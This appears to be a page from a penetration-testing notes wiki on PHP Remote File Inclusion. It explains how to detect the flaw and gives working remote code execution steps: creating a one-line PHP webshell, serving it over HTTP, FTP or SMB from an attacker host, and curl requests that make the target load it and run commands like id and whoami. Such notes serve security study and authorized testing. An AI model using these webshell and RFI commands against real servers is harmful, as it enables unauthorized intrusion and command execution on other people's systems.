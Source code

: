 In the case that a function allows remote URLs but does not allow code execution, we can exploit the vulnerability to enumerate local ports through [SSRF](../chains/ssrf-greater-than-lfi.md).

### Identify

A reliable way to determine whether an LFI flaw is also an RFI one is to try and include a local URL (for ensuring that does not get blocked by security measures) and see if we can get its content.

```html
<!-- Requesting a local URL -->
/index.php?language=http://127.0.0.1:80/index.php
```

If the `index.php` page gets included and executed, i.e., rendered -> RFI + RCE.

### RCE

#### HTTP

{% code overflow="wrap" %}
```shell
# Creating a webshell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
# Serving the webshell via an HTTP server
sudo python3 -m http.server [80 | 443]
# RCE
curl http://<ip:port>/index.php?language=http://<attacker-ip:port>/shell.php&cmd=id
```
{% endcode %}

#### FTP

This may be useful in case HTTP ports are blocked or the `http://` string gets blocked by a WAF. By default, PHP tries to authenticate as an anonymous user.

{% code overflow="wrap" %}
```shell
# Serving the webshell via an FTP server
sudo python -m pyftpdlib -p 21
# RCE
curl http://<ip:port>/index.php?language=ftp://<attacker-ip>/shell.php&cmd=id
# If authentication is required
curl 'http://<ip:port>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```
{% endcode %}

#### SMB

Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path. This technique is more likely to work if we were on the same network, as accessing remote SMB servers over the internet may be disabled by default.

```shell
# Serving the webshell via an SMB server
impacket-smbserver -smb2support share $(pwd)
# RCE
curl http://<ip:port>/index.php?language=\\<attacker-ip>\share\shell.php&cmd=whoami
```


[^1]: Remote File Inclusion